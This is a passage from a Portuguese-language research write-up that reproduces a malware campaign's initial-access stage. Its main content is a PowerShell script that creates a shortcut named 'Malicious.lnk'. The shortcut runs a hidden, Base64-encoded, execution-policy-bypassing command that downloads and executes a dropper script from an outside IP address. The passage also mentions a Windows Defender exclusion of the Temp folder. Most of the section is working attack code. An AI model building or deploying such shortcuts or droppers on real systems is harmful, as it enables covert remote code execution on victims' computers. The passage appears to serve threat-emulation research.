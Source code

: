   <img src="defender.png" alt="" style="display: block; margin-left: auto; margin-right: auto; max-width: 100%; height: auto;">
  <figcaption><i><strong>Figura 9.</strong> Pasta Temp em exceção no Windows Defender.</i></figcaption>
</figure>

## 4.7. Criando o nosso arquivo de execução inicial, nosso arquivo `.lnk`

Conforme mencionado pela Trend no seu artigo, o arquivo de acesso inicial era um arquivo `.msi`, aqui foquei em escrever um `.lnk`, por que é fácil e tem muitos malwares que fazem esse tipo de método. Vamos criar nosso `.lnk` malicioso:

```powershell
# Cria um objeto COM para manipulação de atalhos .lnk
$Shell = New-Object -ComObject WScript.Shell
# Cria o atalho no Desktop do usuário atual com o nome "Malicious.lnk"
$Shortcut = $Shell.CreateShortcut("$env:USERPROFILE\Desktop\Malicious.lnk")
# Comando que vai fazer o download e execução do script malicioso
$Command = "powershell.exe -ep bypass -command `"iex (New-Object Net.WebClient).DownloadString('http://192.168.145.115/stage1/dropper.ps1')`""
# Codifica o comando em Base64
$EncodedCommand = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($Command))
# Define o powershell.exe como execução junto com os argumentos
$Shortcut.TargetPath = "powershell.exe"
$Shortcut.Arguments = "-ExecutionPolicy Bypass -WindowStyle Hidden -NoProfile -EncodedCommand $EncodedCommand"
# Define o diretório de execução e o ícone do atalho e salva
$Shortcut.WorkingDirectory = "$env:USERPROFILE\Desktop"
$Shortcut.IconLocation = "C:\Windows\System32\shell32.dll,1"
$Shortcut.Save()
```

[^1]: Living Off The Land Binaries, Scripts and Libraries
[^2]: Antecipando uma coisinha, eu tentei utilizar o `certmgr.msc`, por exemplo, e obtive o mesmo resultado. A ideia de usar o `WmiMgmt.msc` é puramente técnico, raramente ele é utilizado. Pelo menos eu nunca vi ninguém usando ele via GUI.
